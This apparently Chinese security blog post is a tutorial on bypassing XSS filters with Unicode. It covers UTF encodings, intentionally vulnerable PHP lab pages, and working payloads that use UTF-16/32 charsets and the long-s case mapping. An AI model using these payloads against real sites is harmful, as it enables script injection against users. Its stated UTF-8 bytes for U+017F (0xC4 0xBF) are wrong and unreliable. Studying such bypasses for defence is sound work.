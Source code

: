 ```yaml
---
title: unicode绕过xss
date: 2017-08-07 19:54:17
categories: Web安全
tags:
    - XSS
    - unicode
---
```


无意间看到一篇讲解unicode绕过xss的文章[Xssing Web With Unicodes](http://blog.rakeshmane.com/2017/08/xssing-web-part-2.html)，内容比较基础，记录下，顺便巩固下unicode的相关知识:)
<!-- more -->

## unicode基础知识

简单来说，unicode 是字符集，utf-8,utf-16,utf-32是编码规则。
[unicode 字符集: ttps://unicode-table.com/](https://unicode-table.com/)

### UTF-8 (1-4 byte)
utf-8是可变变长编码，将一个unicode码位编码成1-4字节。

```
U+ 0000 ~ U+ 007F: 0XXXXXXX
U+ 0080 ~ U+ 07FF: 110XXXXX 10XXXXXX
U+ 0800 ~ U+ FFFF: 1110XXXX 10XXXXXX 10XXXXXX
U+10000 ~ U+1FFFF: 11110XXX 10XXXXXX 10XXXXXX 10XXXXXX
```

Example :
* Character "A" => 0x41
* Character "ſ"  => 0xC4 0xBF
* Character "ಓ" => 0xE0 0xB2 0x93
* Character "𪨶" => 0xF0 0xAA 0xA8 0xB6

例如 “ſ”查unicode字符集为 `\u+017f`

```
0000 0001 0111 1111  <- unicode 二进制
110+00100 10+111111  <- utf-8 编码(二进制)，对应上面第二行
1100 0100 1011 1111  <- 0Xc4 0xbf
```

在线unicode转utf-8工具: [http://www.ltg.ed.ac.uk/~richard/utf-8.cgi?input=017f&mode=hex](http://www.ltg.ed.ac.uk/~richard/utf-8.cgi?input=017f&mode=hex)

### UTF-16 (2byte)

* UTF-16be (be- Big Endian) [Left to Right Byte Order ]

  Example :
  * Character "A" => 0x00 0x41

* UTF-16le (le- Little Endian) [Right to Left Byte Order]

  Example :
  * Character "A" => 0x41 0x00

### UTF-32 (4 byte)

* UTF-32be (be- Big Endian) [Left to Right Byte Order]

  Example :
  * Character "A" => 0x00 0x00 0x00 0x41

* UTF-32le (le- Little Endian) [Right to Left Byte Order]

  Example :
  * Character "A" => 0x41 0x00 0x00 0x00



## unicode绕过

### 简单编码绕过 :

[http://rakeshmane.com/lab/unicode/xss.php?x=payload&charset=utf-8](http://rakeshmane.com/lab/unicode/xss.php?x=payload&charset=utf-8)

```php
<?php
header('X-XSS-Protection: 0');
header('Content-Type: text/html; charset='.$_GET['charset']);
highlight_string(file_get_contents(__FILE__, true));
$x=$_GET['x'];
$x=preg_replace('/<\w+/', '', $x);
echo $x;
?>
```

这个比较简单，设置字符集为 utf-16 或 utf-32可以绕过`preg_replace`检测

* 设置编码为utf-16大端模式:

  `x=%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E%00&charset=utf-16be`

* 设置编码为utf-32

  `x=%00%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E&charset=UTF-32`

  看paylaod可以发现 最前面多了一个 %00，UTF-32是4字节编码，"<"编码为"%00%00%00%3C", 前面多加的一个 %00, 是为了匹配服务器返回的页面内容为4的整数倍，这样浏览器通过utf-32编码页面内容才能正确渲染提供的payload,触发xss,实际情况需要添加多少个 %00 来满足4的整数倍，视具体情况而定。

  {% asset_img 001.png %}

当没有指定编码模式(大端，小端)时，默认情况下UTF-32为大端模式，UTF-16为小端模式。

### 滥用unicode映射

有些应用为了更好的兼容性，将unicode字符映射为大写或小写英文字母，作则给了一段nodejs代码去获取这些映射关系。

```javascript
highNumber=65000;
for(i=0;i<highNumber;i++){
	x=""
	y=""
	if("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ\"/?><';:.,|\\+=-_*&^%$#@!~`".includes(String.fromCharCode(i).toLowerCase()))
		x=String.fromCharCode(i).toLowerCase()
	if("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ\"/?><';:.,|\\+=-_*&^%$#@!~`".includes(String.fromCharCode(i).toUpperCase()))
		y=String.fromCharCode(i).toUpperCase()
	if((x!=""||y!="")&&!("abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ\"/?><';:.,|\\+=-_*&^%$#@!~`".includes(String.fromCharCode(i))))
		console.log(" "+i+" Original : "+String.fromCharCode(i)+" [\\u"+(i).toString(16)+"] LowerCase : "+x+" UpperCase : "+y)
}
```

得到如下结果:

```
 305 Original : ı [\u131] LowerCase :  UpperCase : I
 383 Original : ſ [\u17f] LowerCase :  UpperCase : S
 8490 Original : K [\u212a] LowerCase : k UpperCase :
 64261 Original : ﬅ [\ufb05] LowerCase :  UpperCase : ST
 64262 Original : ﬆ [\ufb06] LowerCase :  UpperCase : ST
```

* demo

  ```Php
  <?php
  header('Content-Type: text/html; charset=UTF-8');
  header('X-XSS-Protection: 0');
  ?>
  <meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src 'self';">

  <?php
  highlight_string(file_get_contents(__FILE__, true));
  $x=$_GET['x'];
  $x=str_ireplace('$','',$x); // Use it to bypass WAF,I know it's annoying but I can't disable it :P
  $x=str_ireplace('<script','BLOCKED',$x);
  $x = mb_convert_case($x, MB_CASE_UPPER);
  echo $x;
  ?>
  ```

  源码中使用`mb_convert_case`去转换字符，默认用utf-8编码，从上面的unicode映射可知`ſ [\u17f]`映射为大写字母`S`可以，以此来绕过`str_ireplace`的检测, `ſ [\u17f]`utf-8编码为0xc40xbf

  Paylaod: `x=<%C5%BFcript/src=./1></script>`

  ​
